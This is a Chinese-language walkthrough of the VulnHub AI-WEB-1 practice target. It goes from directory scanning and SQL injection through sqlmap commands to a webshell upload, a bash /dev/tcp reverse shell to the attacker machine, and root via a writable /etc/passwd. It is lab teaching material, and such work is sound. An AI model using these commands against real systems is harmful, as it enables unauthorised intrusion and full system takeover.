# AI-WEB靶场复现

这个靶场的练习的本质还是简单了解一下各种工具的使用和实际渗透测试的流程

## 获取搭建靶场

```yaml
https://www.vulnhub.com/entry/ai-web-1,353
```

这里将一台kali-Linux和物理机作为攻击机，将两台虚拟机处于一个网络模式下即可，这里是直接全部采用NAT模式

## 信息搜集阶段

	先对当前的网段进行主机存活探测



‍

	除了192.168.21.132，其他全是虚拟机的网络组件，发现靶机的80端口的http服务开放，浏览器访问，发现Web页面无明显功能点后，使用目录扫描工具对Web路径进行枚举，发现隐藏目录、敏感文件、后台入口或未公开资源



‍

	这里使用的是kali自带的dirb，发现了有三个目录暴露出来，这里有两个有价值的信息 ，一个是/robots.txt，人称‘君子协议’，用来告诉网络爬虫哪些敏感目录不能进行爬取，另一个是返回403，有服务但是拒绝访问，有存在信息泄露可能



‍

访问/robots.txt,发现有两个路径，第一个路径访问发现是上面403服务的页面，下面的路径就比较重要了，有点像上传文件的功能，如果存在文件上传漏洞的话就轻松了



‍

进行二级目录的扫描，看/m3diNf0/有没有暴露服务，存在即合理，发现存在phpinfo.php页面，该页面会输出PHP运行环境信息，导致服务器PHP版本、扩展模块、环境变量、路径信息等敏感配置泄露



‍

访问/se3reTdir777/,发现是一个搜索框，尽管不是文件上传点，但是搜索和数据库联系在一起，考虑一下sql注入



进行1' and 1=1 -- qwe注入点测试，发现查询成功，这里存在单引号闭合的sql注入



‍

‍

## GETSHELL

```yaml
使用sqlmap的 --os-shell 获取系统命令执行权限，需要满足以下条件：
1.数据库用户具有较高权限，例如具备文件写入、系统调用等权限；
2.已知Web站点绝对路径，能够将文件写入可执行目录；
3.输入未被有效过滤，例如历史PHP环境中magic_quotes_gpc关闭，使SQL注入能够正常利用;
```

用sqlmap进行自动化sql注入，将存在sql注入的包截下来，让sql可以快速调用



‍

```yaml
python sqlmap.py -r 1.txt --dbs --batch
python sqlmap.py -r 1.txt --current-user --batch
python sqlmap.py -r 1.txt --privileges --batch
```

发现不是数据库管理员的账号，但是有FILE权限，MySQL 的 `FILE` 权限允许数据库用户进行服务器文件操作



在这里我们通过phpinfo知道了网站的绝对路径，当前的用户有FILE权限，同时网站有upload的功能点

可以用--os-shell进行自动化处理上传拿到了一个简单的shell

```yaml
python sqlmap.py -r 1.txt --os-shell
```



‍

通过自己上传shell实现持续的控制,用哥斯拉生成shell.php

```yaml
python sqlmap.py -r 1.txt -file-write
shell.php --file-dest
/home/www/html/web1x443290o2sdf92213/se3reTdir777/uploads/shell.php
```



哥斯拉连接成功





## 提权

kali开启监听，在webshell中执行反弹shell

```yaml
nc -lvnp 9999						//kali开启
```

```yaml
bash -c 'bash -i >& /dev/tcp/192.168.21.131/9999 0>&1'			//webshell执行
```



‍

用python进行tty升级获得高交互的shell

```yaml
python3 -c 'import pty;pty.spawn("/bin/bash")'
```



‍

发现可以利用利用 `/etc/passwd` 文件可写进行权限提升



‍

生成哈希密码，创建一个uid为0的用户





‍

切换用户获取flag


